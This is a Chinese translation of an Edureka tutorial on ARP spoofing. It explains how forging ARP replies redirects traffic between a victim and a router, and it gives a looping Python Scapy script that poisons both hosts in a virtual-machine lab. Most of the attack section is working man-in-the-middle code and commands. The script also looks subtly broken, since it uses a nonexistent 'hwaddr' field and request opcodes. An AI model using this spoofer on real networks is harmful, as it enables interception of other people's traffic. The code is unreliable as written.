






# ARP 欺骗——用 Python 实现道德黑客的自动化

> 原文：<https://www.edureka.co/blog/python-arp-spoofer-for-ethical-hacking>

当你告诉别人你是一个道德黑客，他们会把你当成某种巫师看待。好吧，这就是做一个有道德的黑客:有知识，有能力，有良心去做正确的事情！就像巫师的魔杖一样，Python 让有道德的黑客变得更加强大。在上一个教程中，你看到了如何使用 Python 编写一个 MacChanger 。在本教程中，您将看到 Python 如何用于 **ARP 欺骗**。

*对网络安全感兴趣？查看现场[网络安全培训](https://www.edureka.co/cybersecurity-certification-training)。*

我将讲述以下主题:

*   [什么是 ARP 欺骗？](#WhatisARPSpoofing)
*   [写一个 ARP 欺骗器](#WritinganARPSpoofer)

我知道你们都在炒作道德黑客自动化，但首先，你们应该知道什么是 ARP 欺骗。

## **什么是 ARP 欺骗？**

如今每个人都在使用 WiFi，你也是其中之一。你知道当你连接到路由器时数据是如何流动的吗？您的系统和路由器附带有 IP 地址。当您连接到路由器时，数据流在两个 IP 地址之间流动。路由器向您系统的 IP 地址发送数据，您的系统也向路由器的 IP 地址发送数据。

**ARP 欺骗**是一种通过伪造 IP 地址将网络流量重定向到黑客的技术。太技术化？让我为你使它变得简单。当一个系统和路由器之间(基本上是两个 IP 地址之间)有连接时，黑客会伪造他/她的 IP 地址。黑客会告诉 1)路由器他/她是系统，2)系统他/她是路由器。现在路由器会把数据发给黑客而不是系统，系统会把数据发给黑客而不是路由器。因此，网络流经黑客。

在道德黑客攻击中，匿名只是一件简单的事情。如果你对这个领域感兴趣，请查看直播 [CompTIA Security+认证](https://www.edureka.co/comptia-security-plus-certification-training) 。



现在我们知道了什么是 ARP 欺骗器，让我们用 Python 来构建它们吧！

## **写一个 ARP 欺骗器**

当我向您解释 ARP 欺骗时，我告诉过您它会重定向流量。要进行 ARP 欺骗，我们需要 3 个节点。一个是黑客节点，另外两个是系统，它们之间有一些通信。

对于本教程，我将使用虚拟机来创建节点。我将运行两台虚拟机，其中一台是黑客，另一台是受害者。第三个节点呢？嗯，那将是虚拟机连接到的路由器。

我的设置如下:我有两台连接到路由器的虚拟机。

在我们写一个 ARP 欺骗器之前，我们需要得到一些数据。因为黑客系统会伪造它的 IP 地址，我们应该知道路由器和受害者系统的 IP 地址和 MAC 地址。

要找到受害者和路由器的 IP 地址，从黑客的机器上运行以下命令:

```
$ arp -a
```

这将列出该网络中所有系统的 IP 地址和 MAC 地址。



在这里，网关是路由器，对于这个演示，我将选择 IP 地址为 **192.168.111.157** 的系统作为受害者。

运行 ARP 欺骗器后，我们需要一种方法来验证我们的 ARP 欺骗器是否工作。在现实世界中，ARP 欺骗的成功/失败取决于黑客系统的输出。但是对于这个演示，我们将使它变得简单。由于我们正在运行虚拟机，我将切换到受害者系统并检查路由器的 MAC 地址。

为此，在受害者系统的终端中运行以下命令:

```
$ arp -a
```



查看路由器的 MAC 地址，这将在我们运行脚本后改变。

现在我们有了欺骗所需的数据，我们准备编写一个 ARP 欺骗器。

要写一个针对 ARP 欺骗的欺骗器，我们来运行 PyCharm。要启动 PyCharm，请转到 PyCharm 被解压缩的目录并运行 shell 脚本。

```
$ cd pycharm-community-2018.3.4/ 
$ cd bin/
$ ./pycharm.sh
```

您将看到 PyCharm 的欢迎屏幕。点击**【创建新项目】**



输入项目的名称。我将这个命名为 **arp_spoof。**然后点击**创建**。



现在你将看到工作场所。接下来，让我们创建一个 Python 文件。要做到这一点，右击项目名称，进入“**新建**，点击“ **Python 文件**”。现在，您可以在这里编写 Python 脚本。

我正在编写的 ARP 欺骗器将使用 Python 的 **Scapy** 模块，这是一个数据包操作工具。

下面是 ARP 欺骗器的 Python 脚本:

```
import scapy.all as scap

while True:
    packet = scap.ARP(op=1, pdst="192.168.111.157", hwaddr="00:0c:29:1e:76:af", psrc="192.168.111.2")
    scap.send(packet) #Packet telling the Victim (with ip address 192.168.111.157) that the hacker is the Router.

    packet = scap.ARP(op=1, pdst="192.168.111.2", hwaddr="00:50:56:e7:86:57", psrc="192.168.111.157")
    scap.send(packet) #Packet telling the Router (with ip address 192.168.111.2) that the hacker is the Victim.
```

运行此脚本，网络将被重定向。让我们来验证它是否真的有效。在受害者的系统中，运行以下命令:

```
$ arp -a
```



可以看到路由器 IP 的 MAC 地址被改成了黑客系统的 MAC 地址。这意味着网络被重定向到黑客，来自受害者系统的数据被黑客系统认为是路由器。

*恭喜恭喜！您已经用 Python 编写了一个 ARP 欺骗器，并看到了它的运行。现在您已经知道 Python 如何有益于道德黑客，学习更多的模块、命令，并开始使用 Python 自动化道德黑客。*

*有问题吗？请将它发布在 [Edureka 社区](https://edureka.co/community)上，我们将会回复您。*

如果您希望学习网络安全，并在网络安全领域建立丰富多彩的职业生涯，那么请查看我们的 [***网络安全认证培训***](https://www.edureka.co/cybersecurity-certification-training) ，该培训带有讲师指导的现场培训和真实项目体验。本培训将帮助您深入了解网络安全，并帮助您掌握该主题。

*您还可以看看我们新推出的关于 [**CompTIA Security+认证**](https://www.edureka.co/comptia-security-plus-certification-training) 的课程，这是 Edureka & CompTIA Security+首次与官方合作。它为您提供了一个获得全球认证的机会，该认证侧重于安全和网络管理员不可或缺的核心网络安全技能。*

通过 Edureka 的 [**研究生项目** 和 **NIT Rourkela**](https://www.edureka.co/post-graduate/cybersecurity) 以正确的方式学习网络安全，保护世界上最大的公司免受网络钓鱼者、黑客和网络攻击。